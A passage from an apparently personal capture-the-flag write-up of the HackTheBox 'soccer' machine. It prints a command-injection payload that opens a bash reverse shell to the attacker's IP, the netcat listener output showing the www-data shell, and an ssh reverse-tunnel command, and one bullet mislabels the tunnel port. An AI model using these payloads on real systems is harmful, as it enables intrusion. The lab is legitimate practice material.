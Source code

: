 ```
password=admin@123&cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.16/4444+0>%261'
```

not i used burpsuites url-encode-as-you-type! :D

```
nc -lnvp 4444         
listening on [any] 4444 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.194] 46154
bash: cannot set terminal process group (1073): Inappropriate ioctl for device
bash: no job control in this shell
www-data@soccer:~/html/tiny/uploads$   
```

great i am shelled in as www-data!

checking in /etc/nginx, i find a new hostname:
`soc-player.soccer.htb`

lets add to our etc/hosts and check it out...
![[Pasted image 20250922135958.png]]

looking closer at code:
```
server {
	listen 80;
	listen [::]:80;

	server_name soc-player.soccer.htb;

	root /root/app/views;

	location / {
		proxy_pass http://localhost:3000;
		proxy_http_version 1.1;
		proxy_set_header Upgrade $http_upgrade;
		proxy_set_header Connection 'upgrade';
		proxy_set_header Host $host;
		proxy_cache_bypass $http_upgrade;
	}

}
```

we may need to tunnel port 3000 to our kali via ssh....
```
ssh -N -R 3000:127.0.0.1:3000 -o ExitOnForwardFailure=yes -o ServerAliveInterval=60 wizardwalter@10.10.14.16
```
```
- `-R 9000:127.0.0.1:3000` — tells the remote (Kali) to bind port **9000** and forward it to target's `127.0.0.1:3000`.
    
- `-N` — no remote command, just tunnel.
    
- `-o ExitOnForwardFailure=yes` — fail if the forward can't be created.
    
- `-o ServerAliveInterval=60` — keep-alive so the connection doesn’t drop.
```
